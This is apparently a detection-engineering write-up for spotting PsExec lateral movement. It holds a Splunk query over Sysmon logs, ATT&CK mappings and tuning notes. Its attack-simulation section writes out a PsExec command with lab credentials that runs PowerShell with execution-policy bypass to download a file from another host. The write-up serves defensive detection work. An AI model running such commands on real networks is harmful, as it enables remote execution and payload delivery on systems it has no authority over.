

# Detection 05: Correlated PsExec Remote Execution Activity

Detects high-confidence PsExec-based lateral movement by correlating multiple indicators including process execution, HTTP activity, and command-line behavior.

## Objective

Detect PsExec-based remote execution by identifying processes spawned from PSEXESVC.exe that exhibit HTTP-based activity across multiple execution methods.

## ATT&CK Mapping

- T1059.001 – PowerShell  
- T1059.003 – Windows Command Shell  
- T1105 – Ingress Tool Transfer  
- T1197 – BITS Jobs  

## Data Sources

- Sysmon  
- Splunk  

## Relevant Events

- Sysmon Event ID 1 – Process Creation  

## SPL Query

```spl
index=main sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
| rex field=_raw "<Data Name='Image'>(?<Image>[^<]+)</Data>"
| rex field=_raw "<Data Name='CommandLine'>(?<CommandLine>[^<]+)</Data>"
| rex field=_raw "<Data Name='ParentImage'>(?<ParentImage>[^<]+)</Data>"
| rex field=_raw "<Data Name='User'>(?<User>[^<]+)</Data>"
| where like(ParentImage,"%PSEXESVC.exe%")
| where like(CommandLine,"%http%")
| table _time host Image CommandLine ParentImage User
| sort -_time
```

## Attack Simulation
```
PsExec Remote Execution (Correlated HTTP-Based Activity)
C:\PSTools\PsExec.exe \\192.168.1.16 -u labuser -p abc123 cmd.exe /c powershell.exe -nop -ep bypass -c "Invoke-WebRequest http://192.168.1.25:8080/test.txt"
```

## Detection Logic

This detection identifies PsExec activity by correlating multiple behavioral indicators, including processes spawned from PSEXESVC.exe and command-line patterns associated with HTTP-based payload retrieval. By combining indicators such as PowerShell Invoke-WebRequest and BITSAdmin usage, this detection increases confidence and reduces reliance on a single execution method.

## Screenshot



## Analysis

Host: WIN-ENDPOINT-01  
User: labuser  
Parent Process: PSEXESVC.exe  

### Observed Activity:

- PowerShell execution with Invoke-WebRequest over HTTP  
- BITSAdmin file transfer over HTTP  

This activity indicates PsExec-based remote execution followed by multiple methods of HTTP-based payload retrieval. The presence of both PowerShell and BITS-based transfers increases confidence in malicious behavior, as it demonstrates consistent post-exploitation activity rather than a single isolated event.

## False Positives

- Legitimate administrative scripts using PowerShell or BITS for file retrieval
- Software deployment tools performing HTTP-based downloads

## Tuning Recommendations

- Filter known administrative tools and automation accounts
- Correlate multiple indicators (e.g., parent process + HTTP + command-line patterns)
- Identify unusual or first-time use of HTTP-based retrieval methods on endpoints

## Severity 

High
